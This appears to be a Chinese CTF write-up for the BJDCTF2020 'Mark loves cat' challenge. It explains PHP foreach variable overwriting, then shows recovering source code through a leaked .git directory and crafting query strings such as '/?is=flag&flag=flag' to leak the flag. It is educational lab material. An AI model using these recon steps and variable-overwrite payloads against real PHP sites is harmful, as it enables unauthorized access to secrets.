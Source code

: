 # [BJDCTF2020]Mark loves cat foreach导致变量覆盖

## 这里我们着重了解一下变量覆盖

首先我们要知道函数是什么

## foreach

```php
 
 
foreach (iterable_expression as $value)
    statement
foreach (iterable_expression as $key => $value)
    statement
 
第一种格式遍历给定的 iterable_expression 迭代器。每次循环中，当前单元的值被赋给 $value。
 
第二种格式做同样的事，只除了当前单元的键名也会在每次循环中被赋给变量 $key。 
 
```

不一样只是键名是否赋值

```php
数组最后一个元素的 $value 引用在 foreach 循环之后仍会保留。
```

## 变量覆盖

这个其实很简单 就是有点绕

```php
<?php
$ary=array('a','b','c','c','e');
foreach($ary as $key=>$value){     //$ary的键名赋给$key，键值赋给$value
	$$key=$value;    //把键值赋给$$key
}
print_r($key);      //输出4
因为 数组为5 那么就是有 01234个值 这里就会将 $ary的值存入 就是4
print_r($value);    //输出e
因为经过遍历 所以这里是指向最后一个值 就是 $arr[4]=e
 
 
 
print_r($$key);      //输出e
最后 $$key=$value
 
类似于
$(key)=value
所以输出$$key 就会输出 $(key) 就会输出 value =e
 
?>
```

已经感觉类似渗透了

直接dir扫一下



<img src="https://i-blog.csdnimg.cn/blog_migrate/3933950c9a90c2b1876200f34e3c49b3.png" alt="" style="max-height:198px; box-sizing:content-box;" />


一下就想到git泄露

我们直接githack



<img src="https://i-blog.csdnimg.cn/blog_migrate/5353ddf015f815a4898efa53ae6e7a9d.png" alt="" style="max-height:137px; box-sizing:content-box;" />


直接看看源代码

flag.php



<img src="https://i-blog.csdnimg.cn/blog_migrate/67bb2fbdf0daca1a37f91e2c63638f75.png" alt="" style="max-height:118px; box-sizing:content-box;" />


index.php



<img src="https://i-blog.csdnimg.cn/blog_migrate/10fac8bf1e56c04a722e32447cb3bbea.png" alt="" style="max-height:707px; box-sizing:content-box;" />


这里存在echo 我们直接去看看网站哪里存在输出了



<img src="https://i-blog.csdnimg.cn/blog_migrate/e81ec144eb28ecf2b997317c1e53a1ab.png" alt="" style="max-height:335px; box-sizing:content-box;" />


然后我们就可以确定现在输出的是$yds变量 我们开始代码审计

### 分析

```php
1.输出是dog 那么就是$yds
只有在
if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}
会输出yds 所以我们需要传递 POST GET参数
```

我们思考完这个 我们想想看如何可以让 flag输出



<img src="https://i-blog.csdnimg.cn/blog_migrate/65ce8543ce06443091b353e0a45c3cce.png" alt="" style="max-height:84px; box-sizing:content-box;" />


我们可以通过 exit()输出flag值

```ruby
首先这里是输出yds
 
那么很简单
 
我们get的参数就是 yds
 
 
$$yds
 
但是输出的是 $yds
 
所以我们只需要让 $yds=$flag 
 
就可以变相exit($flag)了
 
$$yds=$$flag
 
就类似于
 
$(yds)=$(flag)
 
所以我们只需要传递 yds=flag即可
 
/?yds=flag
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/40681a25bd4c32d32e6d2bab904e0d49.png" alt="" style="max-height:149px; box-sizing:content-box;" />


### 第二种

```cobol
if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}
 
这里存在 post的值绝对为flag 或者 get的值绝对为flag
 
```

我们首先看post

```cobol
flag=flag
 
$x=$flag=flag
这样就失去了变量 所以无法
```

接着我们看看get

```cobol
flag=flag
$$flag=$flag=$flag
 
因为我们要输出is
 
所以
 
?is=flag
 
现在这里是 
 
 
$(is)=$(flag)
 
然后跟上 &flag=flag
 
这样的话
 
$(flag)=$(flag)
 
最后转换还是
 
$(is)=$(flag)
 
这样就可以输出了
```

这样就可以输出flag了

```cobol
/?is=flag&flag=flag
```

### 第三种

```cobol
foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}
 
get的flag值绝对为 $x 并且 $x不为 flag
```



```cobol
我们还是确定我们需要输出 handsome
 
所以我们构造 ?handsome=flag
 
这样
 
$(handsome)=$(flag)
 
然后就会去看看$flag是啥 但是这里$不能为flag
 
我们在中间搭建一个桥梁即可
 
?handsome=flag&flag=b&b=flag
 
这样
 
$(handsom)=$(flag)
然后
$flag=$b
就绕过了!==判断
 
然后$(b)=flag
 
这里别的师傅有更简单的思路
 
?flag=a&&a!=flag
 
所以我们构造一个中间值传递参数即可
```